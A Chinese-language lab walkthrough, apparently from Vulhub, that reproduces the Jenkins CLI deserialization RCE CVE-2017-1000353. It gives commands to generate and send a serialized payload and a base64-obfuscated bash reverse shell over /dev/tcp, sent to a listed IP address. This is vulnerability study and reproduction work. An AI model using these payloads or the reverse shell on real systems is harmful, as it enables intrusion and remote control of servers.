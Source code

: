 # Jenkins-CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

攻击者可以将序列化的Java SignedObject对象，传输到基于远程处理的Jenkins CLI，这将最终造成反序列化，进而绕过现有基于黑名单的保护机制。

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

Vulhub执行如下命令启动jenkins 2.46.1：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

## 漏洞复现

### 一、命令执行

#### 生成序列化字符串

参考https://github.com/vulhub/CVE-2017-1000353，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

#### 发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![img](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/1-168180280232532.png)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![img](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/2-168180280232533.png)

### 二、反弹shell

#### 生成序列化字符串

执行下面命令，生成字节码文件 p.ser：

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar p.ser "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```

#### 发送数据包，接收反弹shell

```
python CVE-2017-1000353.py http://39.106.155.180:11314/ p.ser
```

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20240327090427931.png)

成功接收反弹shell：

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20240327090742675.png)
